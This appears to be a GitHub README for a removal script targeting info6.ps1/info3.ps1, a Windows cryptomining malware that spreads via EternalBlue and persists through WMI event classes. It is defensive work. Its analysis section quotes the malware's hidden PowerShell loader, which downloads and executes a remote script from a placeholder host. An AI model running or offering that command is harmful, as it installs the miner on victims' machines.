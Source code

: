 # AntiMining-info6
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Logo.jpg)
#### By Carlos Ramírez López

## ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:

  - Performance modification in the computer equipment to "high performance" through the Windows registry.
  - Mining of cryptocurrencies, increasing CPU processing between 70% and 100%. (Image 1)
  - Persistence in infected computers, modifications of Windows variable classes. (Image 2 and 3)
  - Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment. (Image 4)

#### Image 1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/CPU.jpg)

#### Image 2
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Clases.jpg)

#### Image 3
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Infected_Class.jpg)

#### Image 4
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Scan.jpg)

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
Malware info6.ps1 and info3.ps1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)

malware in the operating system
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
## Elimination of malware

To eliminate the malware it is necessary to eliminate the variables the content of the affected variables where the malicious script is stored.
For this we only need to eliminate the powershell.exe from the task manager and execute the AntiMining-info6.bat script by double clicking on it, automatically removing the malware.

![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/AntiMiner.jpg)


